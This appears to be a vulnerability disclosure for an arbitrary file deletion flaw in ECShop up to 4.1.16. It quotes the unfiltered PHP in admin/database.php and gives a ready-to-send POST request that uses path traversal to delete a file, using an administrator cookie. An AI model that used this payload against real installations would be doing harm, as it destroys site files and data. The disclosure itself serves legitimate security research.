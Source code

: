 
# ECShop_v4.1.16 Arbitrary File Deletion Vulnerability

## 1. Affected version

```
 ECShop <= 4.1.16
```

## 2. Firmware download address

[https://www.ecshop.com/download](https://www.ecshop.com/download)

or the source directory and readme directory of this repository are ECShop_ Source code for v4.1.16

## 3. Vulnerability details

 Starting from line 266 of the file  source  on "\source\ecshop\admin\database.php".

```php
if ($_REQUEST['act'] == 'remove') {
    /* 权限判断 */
    admin_priv('db_backup');

    if (isset($_POST['file'])) {
        $m_file = array(); //多卷文件
        $s_file = array(); //单卷文件
        
        $path = ROOT_PATH . DATA_DIR . '/sqldata/';
        
        foreach ($_POST['file'] as $file) {
            if (preg_match('/_[0-9]+\.sql$/', $file)) {
                $m_file[] = substr($file, 0, strrpos($file, '_'));
            } else {
                $s_file[] = $file;
            }
        }

        if ($m_file) {
            $m_file = array_unique($m_file);

            /* 获取文件列表 */
            $real_file = array();

            $folder = opendir($path);
            while ($file = readdir($folder)) {
                if (preg_match('/_[0-9]+\.sql$/', $file) && is_file($path . $file)) {
                    $real_file[] = $file;
                }
            }

            foreach ($real_file as $file) {
                $short_file = substr($file, 0, strrpos($file, '_'));
                if (in_array($short_file, $m_file)) {
                    @unlink($path . $file);
                }
            }
        }

        if ($s_file) {
            foreach ($s_file as $file) {
                @unlink($path . $file);
            }
        }
    }

    sys_msg($_LANG['remove_success'], 0, array(array('text' => $_LANG['restore'], 'href' => 'database.php?act=restore')));
}
```

![image-20230722001551622](assets/image-20230722001551622.png)

We can find that for the file parameter passed in by POST, the $s_file variable is not filtered, and any file can be deleted by using directory splicing.

## 4. Vulnerability verification

First, in the \source\ecshop directory, create a file named 123.php to verify the vulnerability.

![image-20230722002201315](assets/image-20230722002201315.png)

Then we use the burpsuite tool to capture the packet and log in to the administrator account to obtain the administrator's cookie.

```
/admin/privilege.php?act=login
```

![image-20230722002726749](assets/image-20230722002726749.png)

Login successful:

![image-20230722002808484](assets/image-20230722002808484.png)

Copy the administrator's  cookie. 

![image-20230722002921130](assets/image-20230722002921130.png)

Then construct the exploit, fill in the administrator's cookie and your host.

```
POST /admin/database.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.54
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: 
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 21 Jul 2023 13:53:04 GMT
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

act=remove&file[]=../../123.php
```

Finally, send the constructed request packet.

![image-20230722003608753](assets/image-20230722003608753.png)

We can find that the 123.php file has been deleted.

![image-20230722003553849](assets/image-20230722003553849.png)
